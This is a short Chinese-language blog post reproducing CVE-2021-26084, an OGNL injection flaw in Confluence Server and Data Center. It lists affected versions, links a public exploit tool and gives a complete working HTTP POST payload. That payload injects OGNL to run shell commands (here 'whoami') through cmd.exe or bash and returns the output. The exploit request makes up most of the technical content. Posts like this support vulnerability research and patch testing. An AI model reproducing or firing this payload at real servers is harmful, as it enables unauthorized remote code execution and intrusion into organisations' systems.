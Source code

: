 
# [CVE-2021-26084(Confluence) 漏洞复现](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)

 [↓↓↓](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)  
  
2021-09-02  
  
[↑↑↑](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)  [漏洞复现](https://ad-calcium.github.io/categories/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)   [漏洞复现](https://ad-calcium.github.io/tags/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/) [Confluence](https://ad-calcium.github.io/tags/confluence/) 字数统计：193 字 阅读时长：1 分

## 0x01 漏洞介绍

Confluence Server Webwork OGNL 注入漏洞（CVE-2021-26084），远程攻击者在经过身份验证或在特定环境下未经身份验证的情况下，可构造 OGNL 表达式进行注入，实现在 Confluence Server 或 Data Center 上执行任意代码。

## 0x02 影响范围

**受影响版本**

-   Confluence < 6.13.23
-   6.14.0 ≤ Confluence < 7.4.11
-   7.5.0 ≤ Confluence < 7.11.6
-   7.12.0 ≤ Confluence < 7.12.5
-   Confluence < 7.13.0

## 0x03 利用工具

```bash
https://github.com/h3v0x/CVE-2021-26084_Confluence
```

## 0x03 漏洞复现

漏洞 payload

```bash
POST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1
Host: xxxxxxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=4FBEAB3342C1B2F544CB4AA67A7ADA6F
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1072

queryString=aaaaaaaa%5Cu0027%2B%7BClass.forName%28%5Cu0027javax.script.ScriptEngineManager%5Cu0027%29.newInstance%28%29.getEngineByName%28%5Cu0027JavaScript%5Cu0027%29.%5Cu0065val%28%5Cu0027var+isWin+%3D+java.lang.System.getProperty%28%5Cu0022os.name%5Cu0022%29.toLowerCase%28%29.contains%28%5Cu0022win%5Cu0022%29%3B+var+cmd+%3D+new+java.lang.String%28%5Cu0022whoami%5Cu0022%29%3Bvar+p+%3D+new+java.lang.ProcessBuilder%28%29%3B+if%28isWin%29%7Bp.command%28%5Cu0022cmd.exe%5Cu0022%2C+%5Cu0022%2Fc%5Cu0022%2C+cmd%29%3B+%7D+else%7Bp.command%28%5Cu0022bash%5Cu0022%2C+%5Cu0022-c%5Cu0022%2C+cmd%29%3B+%7Dp.redirectErrorStream%28true%29%3B+var+process%3D+p.start%28%29%3B+var+inputStreamReader+%3D+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3B+var+bufferedReader+%3D+new+java.io.BufferedReader%28inputStreamReader%29%3B+var+line+%3D+%5Cu0022%5Cu0022%3B+var+output+%3D+%5Cu0022%5Cu0022%3B+while%28%28line+%3D+bufferedReader.readLine%28%29%29+%21%3D+null%29%7Boutput+%3D+output+%2B+line+%2B+java.lang.Character.toString%2810%29%3B+%7D%5Cu0027%29%7D%2B%5Cu0027
```

![image-20210902101628474](assets/1699241215-3d5b9ba380647fdb1366387f85a597ee.png)

> -   **本文链接：** [https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/ "CVE-2021-26084(Confluence) 漏洞复现")
> -   **License:** [CC BY 4.0 CN](http://creativecommons.org/licenses/by/4.0/deed.zh)

[↓↓↓](https://github.com/ad-calcium)  
  
![](assets/1699241215-57d10927a6533b3fdb14adfa7ddc7aae.png)  
  
[↑↑↑](https://github.com/ad-calcium)

### [AD 钙奶](https://github.com/ad-calcium)

Good Good Study, Day Day Up~

-     [下一篇](https://ad-calcium.github.io/2021/09/smb%E5%A4%96%E5%B8%A6%E6%B3%A8%E5%85%A5/ "SMB外带注入")
-   [上一篇](https://ad-calcium.github.io/2021/09/windows%E6%8A%93%E5%8F%96hash%E6%80%BB%E7%BB%93/ "windows抓取hash总结")  
-   [↓↓↓](#collapseToc "文章目录")  
      
    \[ 文章目录 \]  
      
    [↑↑↑](#collapseToc "文章目录")
    

[](http://service.weibo.com/share/share.php?url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&pic=https%3A%2F%2Fad-calcium.github.io%2Favatar.png&appkey=)[](http://connect.qq.com/widget/shareqq/index.html?url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&source=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&desc=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0&pics=https%3A%2F%2Fad-calcium.github.io%2Favatar.png)[](javascript:)[](https://www.facebook.com/sharer/sharer.php?u=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&description=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0&caption={{SUBHEAD}}&link=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&picture=https%3A%2F%2Fad-calcium.github.io%2Favatar.png)[](https://twitter.com/intent/tweet?text=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&via=https%3A%2F%2Fad-calcium.github.io)
